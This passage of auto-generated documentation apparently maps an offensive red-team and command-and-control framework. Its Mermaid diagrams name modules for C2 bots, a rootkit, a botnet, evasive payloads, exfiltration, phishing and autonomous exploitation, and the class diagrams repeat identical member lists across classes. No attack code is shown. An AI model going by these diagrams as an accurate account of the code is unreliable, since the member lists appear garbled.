    cli_chain_mode_py["chain_mode.py (py)"]
    class cli_chain_mode_py mod;
    modules_intel_fusion_py["intel_fusion.py (py)"]
    class modules_intel_fusion_py mod;
    cli_commands_caldera_py["caldera.py (py)"]
    class cli_commands_caldera_py mod;
    cli_commands_privilege_escalation_py["privilege_escalation.py (py)"]
    class cli_commands_privilege_escalation_py mod;
    modules_vulnbot_py["vulnbot.py (py)"]
    class modules_vulnbot_py mod;
    tests_test_bridge_catalog_filtered_py["test_bridge_catalog_filtered.py (py)"]
    class tests_test_bridge_catalog_filtered_py mod;
    cli_surface_tui_py["surface_tui.py (py)"]
    class cli_surface_tui_py mod;
    cli_commands_infra_py["infra.py (py)"]
    class cli_commands_infra_py mod;
    cli_commands_marketplace_py["marketplace.py (py)"]
    class cli_commands_marketplace_py mod;
    telegram_c2_py["telegram_c2.py (py)"]
    class telegram_c2_py mod;
    contrib_legacy_lazybotnet_py["lazybotnet.py (py)"]
    class contrib_legacy_lazybotnet_py mod;
    lazygui_panels_marketplace_panel_py["marketplace_panel.py (py)"]
    class lazygui_panels_marketplace_panel_py mod;
    cli_commands_pivoting_py["pivoting.py (py)"]
    class cli_commands_pivoting_py mod;
    lazyc2_blueprints_addons_py["addons.py (py)"]
    class lazyc2_blueprints_addons_py mod;
    cli_commands_evasive_payload_py["evasive_payload.py (py)"]
    class cli_commands_evasive_payload_py mod;
    modules_cve_matcher_py["cve_matcher.py (py)"]
    class modules_cve_matcher_py mod;
    lazyc2_blueprints_api_py["api.py (py)"]
    class lazyc2_blueprints_api_py mod;
    lazygui_windows_connect_dialog_py["connect_dialog.py (py)"]
    class lazygui_windows_connect_dialog_py mod;
    modules_ia_network_analysis_py["ia_network_analysis.py (py)"]
    class modules_ia_network_analysis_py mod;
    scripts_devtools_core_smoke_py["core_smoke.py (py)"]
    class scripts_devtools_core_smoke_py mod;
    modules_reactive_engine_py["reactive_engine.py (py)"]
    class modules_reactive_engine_py mod;
    skills_aci_planner_py["aci_planner.py (py)"]
    class skills_aci_planner_py mod;
    cli_fuzzy_picker_py["fuzzy_picker.py (py)"]
    class cli_fuzzy_picker_py mod;
    modules_rootkit_mrhyde_c["mrhyde.c (c)"]
    class modules_rootkit_mrhyde_c mod;
    tests_test_exploration_and_addons_py["test_exploration_and_addons.py (py)"]
    class tests_test_exploration_and_addons_py mod;
    modules_kerberos_core_py["kerberos_core.py (py)"]
    class modules_kerberos_core_py mod;
    tests_test_dashboard_routes_py["test_dashboard_routes.py (py)"]
    class tests_test_dashboard_routes_py mod;
    modules_integrations_searchsploit_py["searchsploit.py (py)"]
    class modules_integrations_searchsploit_py mod;
    modules_session_rag_py["session_rag.py (py)"]
    class modules_session_rag_py mod;
    modules_dns_beacon_py["dns_beacon.py (py)"]
    class modules_dns_beacon_py mod;
    modules_integrations_nuclei_parser_py["nuclei_parser.py (py)"]
    class modules_integrations_nuclei_parser_py mod;
    cli_commands_orchestration_py["orchestration.py (py)"]
    class cli_commands_orchestration_py mod;
    tests_test_boyscout_contracts_py["test_boyscout_contracts.py (py)"]
    class tests_test_boyscout_contracts_py mod;
    contrib_legacy_lazyaddon_creator_py["lazyaddon_creator.py (py)"]
    class contrib_legacy_lazyaddon_creator_py mod;
    lazyc2_blueprints_api_v1_py["api_v1.py (py)"]
    class lazyc2_blueprints_api_v1_py mod;
    tests_test_killchain_snapshot_py["test_killchain_snapshot.py (py)"]
    class tests_test_killchain_snapshot_py mod;
    tests_test_loop_progress_py["test_loop_progress.py (py)"]
    class tests_test_loop_progress_py mod;
    modules_ia_code_analysis_py["ia_code_analysis.py (py)"]
    class modules_ia_code_analysis_py mod;
    end
    subgraph community_13 ["modules: saas_attacks"]
    cli_commands_cloud_attacks_py["cloud_attacks.py (py)"]
    class cli_commands_cloud_attacks_py mod;
    skills_claude_md_orchestrator_sdd_agent_py["sdd_agent.py (py)"]
    class skills_claude_md_orchestrator_sdd_agent_py mod;
    tests_test_loop_cold_overview_py["test_loop_cold_overview.py (py)"]
    class tests_test_loop_cold_overview_py mod;
    tests_test_moe_router_check_regression_py["test_moe_router_check_regression.py (py)"]
    class tests_test_moe_router_check_regression_py mod;
    cli_commands_c2_profile_py["c2_profile.py (py)"]
    class cli_commands_c2_profile_py mod;
    lazygui_services_factory_py["factory.py (py)"]
    class lazygui_services_factory_py mod;
    lazygui_panels_event_log_panel_py["event_log_panel.py (py)"]
    class lazygui_panels_event_log_panel_py mod;
    cli_status_bar_py["status_bar.py (py)"]
    class cli_status_bar_py mod;
    lazygui_widgets_graph_view_py["graph_view.py (py)"]
    class lazygui_widgets_graph_view_py mod;
    modules_opsec_scorer_py["opsec_scorer.py (py)"]
    class modules_opsec_scorer_py mod;
    modules_c2_profile_py["c2_profile.py (py)"]
    class modules_c2_profile_py mod;
    modules_rl_trainer_py["rl_trainer.py (py)"]
    class modules_rl_trainer_py mod;
    modules_integrations_nuclei_bridge_py["nuclei_bridge.py (py)"]
    class modules_integrations_nuclei_bridge_py mod;
    modules_planner_py["planner.py (py)"]
    class modules_planner_py mod;
    tests_test_fuzzy_picker_py["test_fuzzy_picker.py (py)"]
    class tests_test_fuzzy_picker_py mod;
    cli_commands_lateral_migrated_py["lateral_migrated.py (py)"]
    class cli_commands_lateral_migrated_py mod;
    end
    subgraph community_19 ["poc_tui"]
    poc_tui_plugin_loader_py["plugin_loader.py (py)"]
    class poc_tui_plugin_loader_py mod;
    discord_c2_py["discord_c2.py (py)"]
    class discord_c2_py mod;
    modules_operator_profiles_py["operator_profiles.py (py)"]
    class modules_operator_profiles_py mod;
    modules_exploit_recommender_py["exploit_recommender.py (py)"]
    class modules_exploit_recommender_py mod;
    slack_c2_bot_py["slack_c2_bot.py (py)"]
    class slack_c2_bot_py mod;
    modules_beacon_config_builder_py["beacon_config_builder.py (py)"]
    class modules_beacon_config_builder_py mod;
    cli_auto_crypto_py["auto_crypto.py (py)"]
    class cli_auto_crypto_py mod;
    lazygui_panels_sessions_panel_py["sessions_panel.py (py)"]
    class lazygui_panels_sessions_panel_py mod;
    skills_claude_md_orchestrator_reviewer_agent_py["reviewer_agent.py (py)"]
    class skills_claude_md_orchestrator_reviewer_agent_py mod;
    cli_lazynmap_post_py["lazynmap_post.py (py)"]
    class cli_lazynmap_post_py mod;
    cli_commands_collaboration_py["collaboration.py (py)"]
    class cli_commands_collaboration_py mod;
    skills_claude_md_orchestrator_bdd_agent_py["bdd_agent.py (py)"]
    class skills_claude_md_orchestrator_bdd_agent_py mod;
    lazygui_panels_listeners_panel_py["listeners_panel.py (py)"]
    class lazygui_panels_listeners_panel_py mod;
    cli_commands_crystal_ball_py["crystal_ball.py (py)"]
    class cli_commands_crystal_ball_py mod;
    cli_commands_defaults_py["defaults.py (py)"]
    class cli_commands_defaults_py mod;
    lazyc2_blueprints___init___py["__init__.py (py)"]
    class lazyc2_blueprints___init___py mod;
    tests_test_lazygui_backend_py["test_lazygui_backend.py (py)"]
    class tests_test_lazygui_backend_py mod;
    modules_obs_parser_py["obs_parser.py (py)"]
    class modules_obs_parser_py mod;
    modules_integrations_misp_export_py["misp_export.py (py)"]
    class modules_integrations_misp_export_py mod;
    end
    static_js_3d_force_graph_1_73_4_min_js ~~~ static_js_force_graph_1_43_5_min_js
    static_js_html2pdf_bundle_min_js ~~~ static_js_bootstrap_5_3_0_bundle_min_js
    static_js_vis_network_9_1_2_min_js ~~~ static_js_jquery_3_5_1_slim_min_js
    static_js_vis_network_min_js ~~~ static_js_bootstrap_4_5_2_min_js
    static_js_quill_2_0_3_js ~~~ static_js_showdown_2_1_0_min_js
    static_js_chart_min_js ~~~ static_js_tippy_6_js
    static_js_force_graph_1_43_5_min_js ~~~ static_js_particles_js
    static_js_bootstrap_5_3_0_bundle_min_js ~~~ static_js_popper_2_5_4_min_js
    static_js_jquery_3_5_1_slim_min_js ~~~ tests_test_core_config_py
    static_js_bootstrap_4_5_2_min_js ~~~ tests_test_cli_assign_py
    static_js_showdown_2_1_0_min_js ~~~ modules_exp_c
    static_js_tippy_6_js ~~~ core_process_py
    static_js_particles_js ~~~ tests_test_payload_schema_py
    static_js_xterm_js ~~~ tests_test_llm_budget_py
    lazyc2_py ~~~ modules_unified_bridge_py
    lazyown_py ~~~ cli_commands_automation_py
    tests_test_pipeline_engine_py ~~~ lazy_sentinel4_py
    tests_test_aci_planner_py ~~~ tests_test_core_executor_py
    tests_test_structured_logging_py ~~~ tests_test_collab_and_onboarding_py
    tests_test_llm_budget_py ~~~ modules_agent_runner_py
    modules_unified_bridge_py ~~~ cli_commands_ai_py
    cli_commands_automation_py ~~~ skills_sessions_watcher_py
    lazy_sentinel4_py ~~~ tests_test_core_command_bridge_py
    tests_test_core_executor_py ~~~ tests_test_llm_adapter_parity_py
    tests_test_collab_and_onboarding_py ~~~ skills_lazyown_daemon_py
    modules_agent_runner_py ~~~ tests_test_auto_crypto_py
    cli_commands_ai_py ~~~ modules_pipeline_engine_py
    skills_sessions_watcher_py ~~~ telegram_hermes_py
    tests_test_core_command_bridge_py ~~~ modules_toposwarm_bridge_py
    tests_test_llm_adapter_parity_py ~~~ modules_collab_bp_py
    skills_lazyown_daemon_py ~~~ modules_event_bus_py
    tests_test_auto_crypto_py ~~~ modules_ai_fallback_py
    modules_pipeline_engine_py ~~~ modules_llm_factory_py
    telegram_hermes_py ~~~ modules_event_consumers_py
    modules_toposwarm_bridge_py ~~~ modules_lilsplunky_py
    modules_collab_bp_py ~~~ tests_test_lazy_streaming_py
    modules_event_bus_py ~~~ skills_toposwarm_autonomous_py
    modules_ai_fallback_py ~~~ lazyc2_blueprints_phishing_py
    modules_llm_factory_py ~~~ modules_engagement_hooks_py
    modules_event_consumers_py ~~~ modules_ai_model_py
    modules_lilsplunky_py ~~~ modules_conditional_hooks_py
    tests_test_lazy_streaming_py ~~~ modules_mcp_agent_bridge_py
    skills_toposwarm_autonomous_py ~~~ contrib_legacy_lazygptcli_py
    lazyc2_blueprints_phishing_py ~~~ modules_ia_logs_analysis_py
    modules_engagement_hooks_py ~~~ modules_state_manager_py
    modules_ai_model_py ~~~ contrib_legacy_lazyllmchat_py
    modules_conditional_hooks_py ~~~ skills_lazyown_campaign_py
    modules_mcp_agent_bridge_py ~~~ modules_vulnbot_py
    contrib_legacy_lazygptcli_py ~~~ telegram_c2_py
    modules_ia_logs_analysis_py ~~~ modules_ia_network_analysis_py
    modules_state_manager_py ~~~ skills_aci_planner_py
    contrib_legacy_lazyllmchat_py ~~~ tests_test_dashboard_routes_py
    skills_lazyown_campaign_py ~~~ contrib_legacy_lazyaddon_creator_py
    modules_vulnbot_py ~~~ modules_ia_code_analysis_py
    telegram_c2_py ~~~ modules_c2_profile_py
    modules_ia_network_analysis_py ~~~ discord_c2_py
    skills_aci_planner_py ~~~ modules_operator_profiles_py
    tests_test_dashboard_routes_py ~~~ slack_c2_bot_py
    contrib_legacy_lazyaddon_creator_py ~~~ cli_auto_crypto_py
    modules_ia_code_analysis_py ~~~ cli_commands_collaboration_py
    static_js_select2_4_1_0_min_js ~~~ modules_rootkit_mr_c
    static_js_purify_3_0_9_min_js ~~~ contrib_legacy_lazybotnet_py
    modules_venator_py ~~~ modules_rootkit_mrhyde_c
    static_js_socket_io_4_0_0_min_js ~~~ tests_test_engagement_command_gate_py
    static_js_socket_io_4_3_2_min_js ~~~ cli_commands_ux_py
    tests_test_engagement_elo_and_methodology_py ~~~ cli_banner_config_py
    tests_test_engagement_and_ping_py ~~~ modules_cli_auth_py
    lazyc2_blueprints_auth_py ~~~ modules_lazy_rbac_py
    tests_test_exploitgym_gym_py ~~~ cli_commands_exploitgym_py
    tests_test_engagement_command_gate_py ~~~ cli_commands_redteam_gym_py
    cli_commands_ux_py ~~~ cli_commands_cli_auth_py
    cli_banner_config_py ~~~ cli_engagement_hooks_py
    modules_cli_auth_py ~~~ cli_fuzzy_picker_py
    modules_lazy_rbac_py ~~~ tests_test_fuzzy_picker_py
    skills_lazyown_mcp_py ~~~ skills_tests_test_hive_mind_py
    tests_test_core_modules_py ~~~ tests_test_engage_orchestrator_py
    skills_autonomous_daemon_py ~~~ tests_test_lazy_parity_py
    skills_tests_test_autonomous_daemon_py ~~~ tests_test_killchain_unified_v2_py
    cli_commands_session_ops_py ~~~ cli_dashboard_tui_py
    tests_test_moe_rl_swan_py ~~~ skills_lazyown_groq_agents_py
    skills_tests_test_hive_mind_py ~~~ tests_test_scope_bound_auto_gate_py
    tests_test_engage_orchestrator_py ~~~ tests_test_engage_gates_py
    tests_test_lazy_parity_py ~~~ tests_test_autonomous_ops_py
    tests_test_killchain_unified_v2_py ~~~ cli_commands_pwn_py
    cli_dashboard_tui_py ~~~ skills_hive_mind_py
    skills_lazyown_groq_agents_py ~~~ skills_swan_agent_py
    tests_test_scope_bound_auto_gate_py ~~~ skills_lazyown_parquet_db_py
    tests_test_engage_gates_py ~~~ skills_lazyown_policy_py
    tests_test_autonomous_ops_py ~~~ modules_autonomous_exploit_engine_py
    cli_commands_pwn_py ~~~ cli_commands_daemon_ctl_py
    skills_hive_mind_py ~~~ tests_test_phase1_data_gaps_py
    skills_swan_agent_py ~~~ modules_playbook_engine_py
    skills_lazyown_parquet_db_py ~~~ cli_ops_commands_py
    skills_lazyown_policy_py ~~~ cli_recommendation_signals_py
    modules_autonomous_exploit_engine_py ~~~ skills_lazyown_llm_py
    cli_commands_daemon_ctl_py ~~~ modules_operation_py
    tests_test_phase1_data_gaps_py ~~~ modules_rich_tui_py
    modules_playbook_engine_py ~~~ tests_test_daemon_loop_py
    cli_ops_commands_py ~~~ modules_unified_dashboard_py
    cli_recommendation_signals_py ~~~ modules_world_model_py
    skills_lazyown_llm_py ~~~ modules_moe_router_py
    modules_operation_py ~~~ skills_autonomous_replay_py
    modules_rich_tui_py ~~~ tests_test_killchain_unified_py
    tests_test_daemon_loop_py ~~~ cli_commands_caldera_py
    modules_unified_dashboard_py ~~~ tests_test_bridge_catalog_filtered_py
    modules_world_model_py ~~~ modules_cve_matcher_py
    modules_moe_router_py ~~~ modules_reactive_engine_py
    skills_autonomous_replay_py ~~~ modules_integrations_searchsploit_py
    tests_test_killchain_unified_py ~~~ modules_session_rag_py
    cli_commands_caldera_py ~~~ tests_test_boyscout_contracts_py
    tests_test_bridge_catalog_filtered_py ~~~ tests_test_killchain_snapshot_py
    modules_cve_matcher_py ~~~ tests_test_moe_router_check_regression_py
    modules_reactive_engine_py ~~~ modules_rl_trainer_py
    modules_integrations_searchsploit_py ~~~ modules_planner_py
    modules_session_rag_py ~~~ modules_exploit_recommender_py
    tests_test_boyscout_contracts_py ~~~ modules_obs_parser_py
    tests_test_killchain_snapshot_py ~~~ modules_integrations_misp_export_py
    tests_test_lazy_runner_py ~~~ cli_lazy_orchestrator_py
    modules_lazy_loop_py ~~~ modules_lazy_runner_py
    cli_commands_lazyops_py ~~~ tests_test_lazy_orchestrator_py
    tests_test_lazy_loop_py ~~~ tests_test_loop_auto_orchestrator_py
    tests_test_security_codeql_batch_py ~~~ tests_test_loop_llm_resilience_py
    tests_test_lazy_proxy_py ~~~ modules_lazy_proxy_py
    cli_lazy_orchestrator_py ~~~ modules_auto_registry_py
    modules_lazy_runner_py ~~~ modules_lazy_agent_py
    tests_test_lazy_orchestrator_py ~~~ cli_commands_mcp_bridge_py
    tests_test_loop_auto_orchestrator_py ~~~ cli_commands_exploit_migrated_py
    tests_test_loop_llm_resilience_py ~~~ tests_test_lazy_agent_py
    modules_lazy_proxy_py ~~~ modules_loop_ai_bridge_py
    modules_auto_registry_py ~~~ tests_test_loop_ai_bridge_py
    modules_lazy_agent_py ~~~ cli_commands_lazyloop_py
    cli_commands_mcp_bridge_py ~~~ tests_test_lazy_worker_safety_py
    cli_commands_exploit_migrated_py ~~~ modules_lazy_mentions_py
    tests_test_lazy_agent_py ~~~ tests_conftest_py
    modules_loop_ai_bridge_py ~~~ tests_test_loop_supervision_py
    tests_test_loop_ai_bridge_py ~~~ tests_test_asset_gate_py
    cli_commands_lazyloop_py ~~~ tests_test_safety_gates_py
    tests_test_lazy_worker_safety_py ~~~ cli_lazy_monitor_py
    modules_lazy_mentions_py ~~~ modules_lazy_intel_py
    tests_conftest_py ~~~ tests_test_loop_worker_traces_py
    tests_test_loop_supervision_py ~~~ modules_tools_loop_smoke_py
    tests_test_asset_gate_py ~~~ tests_test_loop_cold_overview_py
    tests_test_command_palette_py ~~~ cli_wizard_py
    cli_commands_help_ui_py ~~~ cli_palette_command_py
    cli_tips_engine_py ~~~ poc_tui_app_py
    tests_test_improvements_spec_py ~~~ skills_unified_orchestrator_py
    tests_test_reactive_hints_expanded_py ~~~ core___init___py
    modules_auto_purple_py ~~~ cli_commands_recon_py
    cli_wizard_py ~~~ cli_commands_containers_py
    cli_palette_command_py ~~~ cli_palette_overlay_py
    poc_tui_app_py ~~~ cli_doctor_py
    skills_unified_orchestrator_py ~~~ cli_reactive_hints_py
    core___init___py ~~~ cli_commands_purple_team_py
    cli_commands_recon_py ~~~ cli_toast_bus_py
    cli_commands_containers_py ~~~ modules_lazyk8s_py
    cli_palette_overlay_py ~~~ cli_graph_overlay_py
    cli_doctor_py ~~~ cli_chain_mode_py
    cli_reactive_hints_py ~~~ tests_test_exploration_and_addons_py
    cli_commands_purple_team_py ~~~ cli_commands_orchestration_py
    cli_toast_bus_py ~~~ tests_test_loop_progress_py
    modules_lazyk8s_py ~~~ cli_status_bar_py
    cli_graph_overlay_py ~~~ cli_lazynmap_post_py
    cli_commands_misc_migrated_py ~~~ cli_commands_command_and_control_migrated_py
    tests_test_security_hardening_v3_py ~~~ cli_commands_exfiltration_py
    utils_py ~~~ tests_test_command_set_migration_py
    tests_test_security_hardening_v4_py ~~~ cli_commands_recon_migrated_py
    tests_test_infra_disposable_py ~~~ cli_commands_anti_forensics_py
    tests_test_cli_command_sets_py ~~~ cli_commands_postexp_migrated_py
    cli_commands_command_and_control_migrated_py ~~~ cli_commands_dns_exfil_py
    cli_commands_exfiltration_py ~~~ tests_test_security_hardening_v5_py
    tests_test_command_set_migration_py ~~~ modules_command_executor_py
    cli_commands_recon_migrated_py ~~~ modules_phishing_orchestrator_py
    cli_commands_anti_forensics_py ~~~ cli_commands_phishing_wizard_py
    cli_commands_postexp_migrated_py ~~~ cli_commands_persist_migrated_py
    cli_commands_dns_exfil_py ~~~ modules_c2_builder_py
    tests_test_security_hardening_v5_py ~~~ tests_test_daemon_ctl_command_set_py
    modules_command_executor_py ~~~ tests_test_encoding_command_set_py
    modules_phishing_orchestrator_py ~~~ tests_test_help_ui_command_set_py
    cli_commands_phishing_wizard_py ~~~ tests_test_nethelpers_command_set_py
    cli_commands_persist_migrated_py ~~~ tests_test_session_ops_command_set_py
    modules_c2_builder_py ~~~ tests_test_shellsys_command_set_py
    tests_test_daemon_ctl_command_set_py ~~~ cli_commands_bitm_py
    tests_test_encoding_command_set_py ~~~ cli_commands_cloud_py
    tests_test_help_ui_command_set_py ~~~ cli_commands_edr_detect_py
    tests_test_nethelpers_command_set_py ~~~ tests_test_cli_enhancements_py
    tests_test_session_ops_command_set_py ~~~ cli_commands_mobile_macos_py
    tests_test_shellsys_command_set_py ~~~ modules_icmp_server_py
    cli_commands_bitm_py ~~~ cli_commands_cicd_py
    cli_commands_cloud_py ~~~ cli_commands_cred_migrated_py
    cli_commands_edr_detect_py ~~~ modules_websocket_beacon_py
    tests_test_cli_enhancements_py ~~~ cli_commands_campaign_py
    cli_commands_mobile_macos_py ~~~ cli_commands_privilege_escalation_py
    modules_icmp_server_py ~~~ cli_commands_infra_py
    cli_commands_cicd_py ~~~ cli_commands_marketplace_py
    cli_commands_cred_migrated_py ~~~ cli_commands_pivoting_py
    modules_websocket_beacon_py ~~~ cli_commands_evasive_payload_py
    cli_commands_campaign_py ~~~ scripts_devtools_core_smoke_py
    cli_commands_privilege_escalation_py ~~~ modules_dns_beacon_py
    cli_commands_infra_py ~~~ cli_commands_lateral_migrated_py
    cli_commands_marketplace_py ~~~ cli_commands_crystal_ball_py
    cli_commands_pivoting_py ~~~ cli_commands_defaults_py
    tests_test_core_py ~~~ modules_db_py
    tests_test_api_authz_py ~~~ lazyc2_app_factory_py
    cli_commands_security_py ~~~ cli_commands_opsec_cleanup_py
    modules_rootkit_rootkit_c ~~~ modules_hash_cracker_py
    modules_intelligence_engine_py ~~~ lazyc2_blueprints_addons_py
    modules_estorides_importer_py ~~~ lazyc2_blueprints_api_py
    modules_db_py ~~~ modules_integrations_nuclei_parser_py
    lazyc2_app_factory_py ~~~ lazyc2_blueprints_api_v1_py
    cli_commands_opsec_cleanup_py ~~~ modules_opsec_scorer_py
    modules_hash_cracker_py ~~~ modules_integrations_nuclei_bridge_py
    lazyc2_blueprints_addons_py ~~~ lazyc2_blueprints___init___py
    lazygui_panels_registry_py ~~~ lazygui_theme_manager_py
    lazygui_app_py ~~~ lazygui_panels_marketplace_panel_py
    lazygui_windows_main_window_py ~~~ lazygui_windows_connect_dialog_py
    lazygui_panels___init___py ~~~ lazygui_services_factory_py
    lazygui_services_local_backend_py ~~~ lazygui_panels_event_log_panel_py
    lazygui_services_teamserver_backend_py ~~~ lazygui_widgets_graph_view_py
    lazygui_theme_manager_py ~~~ lazygui_panels_sessions_panel_py
    lazygui_panels_marketplace_panel_py ~~~ lazygui_panels_listeners_panel_py
    lazygui_windows_connect_dialog_py ~~~ tests_test_lazygui_backend_py
```

---

## UML Class Diagram

Auto-generated Mermaid class diagrams from parsed class-level symbols, split into groups of at most 6 classes so each diagram stays readable. Per-module class diagrams with exact members live in `readmenator-apidocs/modules/`.

#### `cli/aliases.py`, `cli/auto_crypto.py`



#### `cli/autosuggest.py`

```mermaid
classDiagram
  direction LR
  class autosuggest_py_SuggestionContext {
    <<class>>
    +_truncate(value, max_len)
    +format_hint_line(suggestion)
    +render_hint_line(engine)
    +_hint_console()
    +build_default_engine(advisor, chain, phase_priority)
    +suggest(self, context)
    +__init__(self, providers)
    +suggest(self, context)
    +__init__(self, chain, phase_priority)
    +suggest(self, context)
  }
  class autosuggest_py_Suggestion {
    <<class>>
    +_truncate(value, max_len)
    +format_hint_line(suggestion)
    +render_hint_line(engine)
    +_hint_console()
    +build_default_engine(advisor, chain, phase_priority)
    +suggest(self, context)
    +__init__(self, providers)
    +suggest(self, context)
    +__init__(self, chain, phase_priority)
    +suggest(self, context)
  }
  class autosuggest_py_SuggestionProvider {
    <<class>>
    +_truncate(value, max_len)
    +format_hint_line(suggestion)
    +render_hint_line(engine)
    +_hint_console()
    +build_default_engine(advisor, chain, phase_priority)
    +suggest(self, context)
    +__init__(self, providers)
    +suggest(self, context)
    +__init__(self, chain, phase_priority)
    +suggest(self, context)
  }
  class autosuggest_py_CompositeProvider {
    <<class>>
    +_truncate(value, max_len)
    +format_hint_line(suggestion)
    +render_hint_line(engine)
    +_hint_console()
    +build_default_engine(advisor, chain, phase_priority)
    +suggest(self, context)
    +__init__(self, providers)
    +suggest(self, context)
    +__init__(self, chain, phase_priority)
    +suggest(self, context)
  }
  class autosuggest_py_KillChainProvider {
    <<class>>
    +_truncate(value, max_len)
    +format_hint_line(suggestion)
    +render_hint_line(engine)
    +_hint_console()
    +build_default_engine(advisor, chain, phase_priority)
    +suggest(self, context)
    +__init__(self, providers)
    +suggest(self, context)
    +__init__(self, chain, phase_priority)
    +suggest(self, context)
  }
  class autosuggest_py_GraphProvider {
    <<class>>
    +_truncate(value, max_len)
    +format_hint_line(suggestion)
    +render_hint_line(engine)
    +_hint_console()
    +build_default_engine(advisor, chain, phase_priority)
    +suggest(self, context)
    +__init__(self, providers)
    +suggest(self, context)
    +__init__(self, chain, phase_priority)
    +suggest(self, context)
  }
  class autosuggest_py_AutoSuggestEngine {
    <<class>>
    +_truncate(value, max_len)
    +format_hint_line(suggestion)
    +render_hint_line(engine)
    +_hint_console()
    +build_default_engine(advisor, chain, phase_priority)
    +suggest(self, context)
    +__init__(self, providers)
    +suggest(self, context)
    +__init__(self, chain, phase_priority)
    +suggest(self, context)
  }
```

#### `cli/banner_config.py`

```mermaid
classDiagram
  direction LR
  class banner_config_py_BannerConfig {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_ColorRegistry {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_GlyphRegistry {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_SegmentSpec {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_ColorPalette {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_RenderContext {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_SegmentRenderer {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_UserHostSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_IfaceSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_LhostSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_RhostSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_DomainSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_PublicIpSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
  }
  class banner_config_py_CwdSegment {
    <<class>>
    +_bracketed(label, value, bullet, value_color, ctx, glyphs)
    +_middle(label, value, value_color, ctx, glyphs)
    +build_default_registry()
    +_read_network_info()
    +_select_iface(network, preferred)
    +_git_branch()
    +_git_dirty()
    +_venv_name()
    +_battery_or_load()
    +default_palette()
